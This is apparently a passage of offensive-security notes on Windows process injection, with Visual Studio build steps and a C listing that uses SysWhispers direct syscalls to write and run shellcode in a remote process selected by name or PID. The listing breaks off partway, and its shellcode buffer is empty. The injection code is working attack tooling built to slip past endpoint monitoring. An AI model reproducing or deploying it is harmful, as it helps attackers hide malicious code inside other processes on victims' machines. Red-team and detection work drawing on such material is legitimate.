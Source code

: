   - In the `Solution Explorer`, right click on the project -> Build
	  Dependencies -> Build Customizations... -> Enable "masm(.targets, .props)".

  - Right click on the added `ASM` file -> Properties -> Item Type: Microsoft
	  Macro Assembler.

*CreateRemoteThread execution (inter-process)*

The following `C` code below can then be used to inject and run a shellcode in
a remote process directly using `syscalls`:

```c
#include "windows.h"
#include "Processthreadsapi.h"
#include "stdio.h"
#include "tchar.h"
#include "tlhelp32.h"

// Header file generated by SysWhispers that includes definition for NtAllocateVirtualMemory, NtWriteVirtualMemory, NtProtectVirtualMemory, and NtCreateThreadEx.
#include "SysWhispers.h"

// Returns the PID of the first process matching "processName".
DWORD GetProcessId(const TCHAR* processName) {
    PROCESSENTRY32 processInfo;
    processInfo.dwSize = sizeof(processInfo);

    HANDLE processesSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
    if (processesSnapshot == INVALID_HANDLE_VALUE) {
        printf("Unable to acquire processes snapshot");
        return 0;
    }

    Process32First(processesSnapshot, &processInfo);

    if (!_tcscmp(processName, processInfo.szExeFile)) {
        CloseHandle(processesSnapshot);
        return processInfo.th32ProcessID;
    }

    while (Process32Next(processesSnapshot, &processInfo)) {
        if (!_tcscmp(processName, processInfo.szExeFile)) {
            CloseHandle(processesSnapshot);
            return processInfo.th32ProcessID;
        }
    }

    CloseHandle(processesSnapshot);

    return 0;
}

int _tmain(int argc, TCHAR** argv) {

    // Hex encoded binary shellcode.
    unsigned char shellcode[] = "";
    size_t szShellcode = sizeof(shellcode);

    if (argc < 2) {
        printf("Usage: code.exe <TARGET_PROCESS_PID | TARGET_PROCESS_NAME>\n");
        return 1;
    }

    DWORD tpid = _tstoi(argv[1]);

    if (tpid == 0) {
```